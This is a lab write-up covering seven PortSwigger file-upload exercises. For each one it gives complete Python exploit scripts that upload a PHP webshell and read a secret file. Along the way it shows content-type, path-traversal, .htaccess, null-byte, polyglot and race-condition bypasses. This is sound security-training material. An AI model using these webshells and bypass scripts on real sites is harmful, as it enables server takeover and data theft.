

# Portswigger Labs

## Lab 1: RCE via webshell

To solve this lab, upload a basic PHP webshell and read `/home/carlos/secret`. 

When logging into the given account, I saw that I was able to upload Avatars to the website:


The website wants me to upload a PHP web shell, like this:

```php
<?php system($_REQUEST['cmd']); ?>
```

I tried to upload a `cmd.php` file, and it worked:



When viewing my new profile, I saw a GET request send to `/files/avatars/cmd.php`. This webshell allows for RCE:


To solve this lab, just replace `id` with `cat+/home/carlos/secret`.

Afterwards, I scripted the entire process.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a86004d04e0743a81ec5291006b00b7'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':('evil.php', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if 'avatars/evil.php' not in r.text:
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + '/files/avatars/evil.php?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/avatars/evil.php', params=params)
print(r.text)
```

## Lab 2: Content-Type Restriction Bypass

Just reading the lab title told me what to do. In the above script, replace the `file` parameter with this:

```python
file = {
	'avatar':('evil.php', '<?php system($_REQUEST["cmd"]); ?>', "image/jpeg")
}
```

Previously, it was set to `application/x-php`. When set to that, the website blocks it:


By changing the `Content-Type` header (which is the 3rd parameter in `file`), I can bypass this.

## Lab 3: Path Traversal + Web shell

This lab does not check the `Content-Type` header, but execution of the webshell is not as straightforward.


For this, the lab title tells us that one has to combine path traversal with this. This means that the directory of which avatars are uploaded blocks the execution of PHP code.

As such, I can rename the file to `../evil.php` so that it appears in the previous directory. 

For this, I renamed the file to `..%2fevil.php`, and accessed it at `/files/evil.php` instead of `/files/avatars/evil.php`.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a7a001303a8c8d280b01c6c008700e2'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':('..%2fevil.php', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] Upload failed")
	sys.exit(1)
print(r.text)
print("[+] Upload worked")


r = s.get(url + '/files/evil.php?cmd=id')
if '12002(carlos)' not in r.text:
	print(r.text)
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/evil.php', params=params)
print(r.text)
```

The above prints the flag out.

## Lab 4: Extension Blacklist Bypass

This lab has a blacklist on the allowed file extensions.


There is a file that is blocking my PHP file. For this case, I tried the `.htaccess` upload trick.



Firstly, I can try to upload this `.htaccess` file as `text/plain`:

```
AddType application/x-httpd-php .evil
```

Then, I can proceed with the regular script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ac300df03d0d81981e626fa0045008b'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

rce_file = {
	'avatar':('evil.evil', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

htaccess_file = {
	'avatar':('.htaccess', 'AddType application/x-httpd-php .evil', "text/plain")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=htaccess_file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] .htaccess Upload failed")
	sys.exit(1)
print("[+] .htaccess Upload worked")

r = s.post(url + '/my-account/avatar', files=rce_file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] RCE File Upload failed")
	sys.exit(1)
print("[+] RCE File Upload worked")

r = s.get(url + '/files/avatars/evil.evil?cmd=id')
if '12002(carlos)' not in r.text:
	print(r.text)
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/avatars/evil.evil', params=params)
print(r.text)
```

## Lab 5: Obfuscated Extension

When trying to upload a file, this is the error I get:

```
Sorry, only JPG & PNG files are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">� Back to My Account</a></p>
```

Changing it to `evil.jpg.php` doesn't work. However, uploading `evil.php%00.jpg` works, and it is uploaded as `evil.php`.

The rest of the exploit is as per normal:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a62005403c67b758140c51c00d0009d'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
bypass_filename = 'evil.php%00.jpg'
filename = 'evil.php'

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':(bypass_filename, '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if f'avatars/{filename}' not in r.text:
	print(r.text)
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + f'/files/avatars/{filename}?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + f'/files/avatars/{filename}', params=params)
print(r.text)
```

## Lab 6: Polyglot Webshell

This lab really checks whether the file uploaded is an image. As such, I just created a webshell like so:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' >> sample.jpg
```

Then, I uploaded this `sample.jpg` file with a payload embedded within it, but it didn't execute.

When I changed it to `sample.php` instead, it worked. 


This means that the website was indeed checking whether a valid image was uploaded, but it still allowed the execution of PHP code. 

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ad600b0049710fd845ca4de00eb0025'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
filename = 'sample.php'
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':(filename, open(filename, 'rb'), "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if f'avatars/{filename}' not in r.text:
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + f'/files/avatars/{filename}?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + f'/files/avatars/{filename}', params=params)
print(r.text)
```

## Lab 7: Race Condition

The lab has a race condition, and I suppose it is because it deletes the file quickly.

I found that using the NULL byte trick works:


Here's the code from the website:

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

The problem with the code above is that **it moves the file before checking it**.

This means that for a brief period, the file is available on the website, and it can be used for code execution BEFORE it is removed via `unlink`. 

This means I don't have to even use a NULL byte. Even if the website tells me the file upload failed, the file is still present on the website for a brief moment.

Using 2 Python scripts to exploit this race condition is the easiest.

There are 2 scripts needed, one to continuously upload a `cmd.php` file, and one that keeps trying to read the secret:

```python
### FILE 1
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a5500ad03051e6f825cf21700d100c3'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
filename = 'cmd.php'

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)
print("[+] Login worked")
while True:
	profile_r = s.get(url + '/my-account?id=wiener')
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
	upload_csrf_token = match[1]

	file = {
		'avatar':(filename, "<?php system($_REQUEST['cmd']); ?>", "application/x-php")
	}

	form_data = {
		'user':'wiener',
		'csrf':upload_csrf_token
	}

	r = s.post(url + '/my-account/avatar', files=file, data=form_data)


### FILE 2
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a5500ad03051e6f825cf21700d100c3'
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
filename = 'cmd.php'
while True:
	params = {
		'cmd':'cat /home/carlos/secret'
	}
	r = s.get(url + f'/files/avatars/{filename}', params=params)
	print(r.text)
```

Running these two in separate terminals will eventually print out the secret. 